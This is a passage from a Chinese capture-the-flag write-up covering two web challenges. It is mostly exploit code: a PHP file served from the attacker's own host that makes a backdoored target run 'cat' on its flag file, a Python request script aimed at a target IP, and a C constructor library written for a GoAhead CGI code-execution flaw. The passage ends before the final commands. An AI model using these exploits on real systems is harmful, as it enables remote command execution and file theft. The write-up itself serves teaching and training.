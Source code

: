 当`pass`的md5值与`User-Agent`相等时，服务器请求`pass`中的可控15字符，并将返回的`json`解析后执行`$d['f']($d['d'])`

故在服务器上部署代码，修改`apache`将`index：80`指向它，这样就可以直接以`ip`访问：

```php
<?php
$a = array("f" => "system", "d" => "/bin/cat ../flag.php");
echo json_encode($a);
?>
```

使用脚本访问：

```python
import requests

url = "http://114.55.36.69:8020/upload/dama.php"
_data = {
    "pass": "0000000000xxxxxxx///0000000000xxxxx000000",  # xxxx为服务器ip
    "submit": "submit"
}
_headers = {
    "User-Agent": "d35452fe56acbbbf06c1d4db1968f9ba"
}
r = requests.post(url, data=_data, headers=_headers)
print(r.text)
```

获得Flag

***

### GOGOGO

进去查看相应头`Server: GoAhead-http`，查找资料，这个`cgi`存在代码执行漏洞

网上的`POC`大多为反弹`shell`，这道题由于服务器配置问题无法实现，有题干知`flag`在`cgi-bin/hello.cgi`中，故只需要执行代码读取`cgi`文件即可

Linux中编写如下代码（我开始想复杂了，还想调用`popen`执行`cat`读取，只需要`fread`就可以了）：

```c
//poc.c
#include <unistd.h>
#include <stdlib.h>
#include <stdio.h>

static void before_main(void) __attribute__((constructor));
static void before_main(void){	
	FILE* fp = fopen("cgi-bin/hello.cgi", "r");
	char buf[2048];
	fread(buf, sizeof(buf), 1, fp);
	write(1, buf, sizeof(buf));
}
```

执行指令编译动态库并发送`payload`：
